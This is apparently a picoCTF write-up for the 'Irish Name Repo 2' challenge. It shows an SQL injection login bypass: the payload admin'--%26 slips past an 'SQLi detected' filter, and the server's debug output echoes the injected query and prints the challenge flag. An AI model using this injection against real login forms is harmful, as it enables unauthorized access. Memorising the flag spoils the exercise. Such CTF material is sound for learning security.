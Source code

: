 # Irish Name Repo 2

## solutions

after seaching i get login page 
<p align="center"> 
<img src="./loginpage.png">
</p>

let test login like Iris name Repo 1


```console 

<h1>SQLi detected.</h1>

```

so try using '--& in username
```
username=admin'--%26&password=1&debug=1

<pre>username: admin'--&amp;
password: 1
SQL query: SELECT * FROM users WHERE name='admin'--&amp;' AND password='1'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>
```